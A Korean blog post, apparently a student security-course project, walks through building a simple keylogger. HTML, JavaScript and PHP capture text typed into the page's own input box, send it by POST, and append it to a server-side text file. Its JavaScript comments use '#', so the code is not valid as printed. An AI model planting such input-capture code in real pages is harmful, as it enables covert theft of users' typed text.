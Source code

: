 ```yaml
---
layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```




<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style=" zoom: 50%;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

## 1.1 keylog.html

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.  
필요에 따라 밑에 표시하는 구문은 지우셔도 무방합니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```



## 1.2 keylogger.js

<br>▶<span style='font-weight:bold; font-size:20px'>DOMContentLoaded로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {	#DOM이 완료되고, 초기에 스크립트를 실행하기 위함.
    const input = document.getElementById('input');		# 작성할곳	
    const log = document.getElementById('log');			# 작성한 것이 밑에 나타날 곳	
    let composing = false;					# IME 입력 중인지 나타내는 플래그(한글작성을 위해)
    let buffer = '';						# 데이터를 임시 저장(한글의 문장열을 한꺼번에 보내려고)
    let timeoutId = null;					# 디바운싱을 위한 타임아웃 ID(불필요한 텍스트를피하려고)
```



▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
 #한글을 작성할 때 
 #(영어가 아닌 한글은 자음가 모음의 결합된 형태이기 때문에 composing을 이용하여 문자조합의 시작과 끝을 나누어서 봐야한다.)

	input.addEventListener('compositionstart', () => {	#입력을 시작, true는 입력중이라는 뜻.
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {	#입력 끝, false는 입력을 끝냈다는 뜻.
        composing = false;					#한글 작성을 끝내고,buffer와log에 데이터를 추가
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer);					# buffer에 저장된 텍스트를 서버로 전송
        buffer = '';						# buffer 초기화
    });
-----------------------------------------------------------------------------------------------------------
    #영어를 작성하거나 기타 다른 것을 작성할 때(밑에 log 작성안할시,if문에 buffer 데이터추가하고 서버에 보내도 됌)

    input.addEventListener('input', (event) => {					
        if (!composing) {						# 한글을 입력하지 않고 다른것을 작성할때
            if (event.inputType === "deleteContentBackward") {		# backspace키
                log.textContent = log.textContent.slice(0, -1);		# slice는 추출해서 새로운 문자열 만드는것
            } else {							(인덱스0, 인덱스-1)이므로 마지막단어빼고 만듬
                log.textContent += event.data || '';			# 나머지는 영어라서 log에 데이터 추가
            }
            debounceSendData(log.textContent);				# 디바운싱을 적용하여 서버에 전송
        }								시간 차를 이용해서 텍스트를 모아서 한꺼번에 처리하여, log에 불필요한 텍스트가 생기는 것을 방지한다.
    });

```



▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript
	###글 작성시, 바로 서버에 보내면 불필요한 글까지 전송된다. 하여 시간 차를 두어 수정할 시간을 확보하기 위함이다.### 
    
    function debounceSendData(text) {
        clearTimeout(timeoutId);		#이전에 설정된 타임을 취소.
        timeoutId = setTimeout(() => {		#새로운 타임 설정, 2초후에 서버로 text를 보냄.
            sendData(text); 
        }, 2000); 
    }

    function sendData(text) {
        var xhr = new XMLHttpRequest();		#웹페이지가 로딩이 끝난뒤에도 서버에 데이터를 주고 받을수 있음.
        xhr.open("POST", "keylog.php", true);	#요청을 설정. (메서드, 경로, 비동기(true),동기(false))
        					동기: 데이터베이스 검색후, 다음코드 진행하는 것처럼 한작업 끝나고 진행
                        			비동기:서버에 데이터주고받을때 처럼 바로 요청에 응답처리
        
                                                
        ###http요청헤더 content-Type 헤더에서 보낸 데이터가 url을 인코딩, 문자 인코딩이 utf-8 지정###   
         
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        
        ###http요청이 완료되었을 때, http상태가 200(좋음)인지 아닌지에 따라 출력하기###
        
        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); 		#데이터 인코딩해서 전송
    }
});

```



## 1.3 keylog.php

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';             # key가 존재하지 않거나 null값이면 ''
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX); 
}	#PHP_EOL:줄바꿈 추가#  #FILE_APPEND:기존내용유지,뒤에 계속내용추가# #LOCK_EX:다른프로세스가 파일을 변경할수 없게함#
```





